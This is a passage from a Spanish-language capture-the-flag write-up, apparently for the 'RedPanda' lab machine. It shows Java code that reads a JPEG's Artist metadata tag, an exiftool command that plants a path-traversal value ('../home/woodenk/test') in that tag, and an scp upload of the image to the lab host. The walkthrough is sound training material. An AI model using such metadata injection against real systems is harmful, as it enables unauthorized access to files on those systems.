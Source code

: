 El App.java esta manejado la metadata,  podemos inyectar en el campo "Artist", una ruta donde estará el xml, esto en una imagen cualquiera que despues subiremos a la máquina.

***

```java
public static String getArtist(String uri) throws IOException, JpegProcessingException
{
    String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
    File jpgFile = new File(fullpath);
    Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
    for(Directory dir : metadata.getDirectories())
    {
        for(Tag tag : dir.getTags())
        {
            if(tag.getTagName() == "Artist")
            {
                return tag.getDescription();
            }
        }
    }

    return "N/A";
}
```

***

Para esto nos deacargamos cuallquier imagen y le injectamos la ruta.


![list](/assets/img/redpanda/Kali-2022-09-02-02-04-52.png){:.lead width="800" height="100" loading="lazy"}


```bash
exiftool -Artist="../home/woodenk/test" images.jpeg
```


![list](/assets/img/redpanda/Kali-2022-09-02-02-06-13.png){:.lead width="800" height="100" loading="lazy"}


```bash
scp images.jpeg woodenk@10.10.11.170:.
```


{:.note}
Esto podemos hacerlo con cualquier tipo de tranferencia de acrchivos.
